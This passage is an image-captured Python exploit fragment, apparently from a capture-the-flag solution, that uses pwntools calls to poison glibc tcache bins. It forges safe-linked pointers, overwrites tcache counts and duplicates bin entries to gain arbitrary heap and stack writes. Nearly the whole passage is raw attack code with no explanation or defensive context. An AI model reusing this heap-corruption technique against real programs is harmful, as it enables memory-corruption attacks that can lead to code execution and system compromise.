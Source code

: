 ```python

    tcache_20_dst_addr = heap_base + 0x2a0
    tcache_20_addr = heap_base + 0x90
    tcache_40_addr = heap_base + 0xa0
    tcache_40_dst_addr = heap_base + 0x197fb0
    tcache_60_addr = heap_base + 0xb0
    tcache_80_addr = heap_base + 0xc0
    tcache_e0_addr = heap_base + 0xf0
    tcache_overwrite_addr = heap_base

    p.send(b"18")
    p.send(b"T" * (tcache_40_dst_addr - tcache_20_dst_addr))
    p.send(p64(protect(tcache_40_dst_addr, tcache_overwrite_addr)))
    p.send(b"\n")

    p.send(b"38\n38")

    # pad to start of counts
    p.send(b"T" * 0x10)

    # write some nice big counts
    p.send(b"\x42" * 0x80)


    # Duplciate tcache[0x60] into tcache[0x20], tcache[0xa0], tcache[0xc0]
    p.send(p64(tcache_80_addr))
    p.send(p64(0))
    
    # Let us resume writing after tcache[60]
    p.send(p64(tcache_80_addr))

    # Change stack address to something nice and high up
    p.send(p64(0))
    p.send(b"\x00\xe0\n")

    p.send(b"38")
    # write 80/a0/c0
    p.send(p64(tcache_60_addr))
    p.send(p64(0))
    p.send(p64(tcache_80_addr))
    p.send(p64(0))
    p.send(p64(tcache_80_addr))
    p.send(p64(0))
    p.send(p64(tcache_80_addr))
    p.send(p64(0))
    p.send(p64(tcache_80_addr))
    p.send(p64(0))
    p.send(b"\n")

    # Read tcache[0x80], which will scramble tcache[0x60]
    p.send(b"78\n")

    # Read tcache[0x20/a0/c0], which will unscramble the stack address
    p.send(b"08\n")
    p.send(b"98\n")
    p.send(b"b8\n")
    p.send(b"d8\n")
    p.send(b"f8\n")

    p.send(b"98")

    offset = 0x8
    p.send(b"\x00" * offset + b'\x00')
```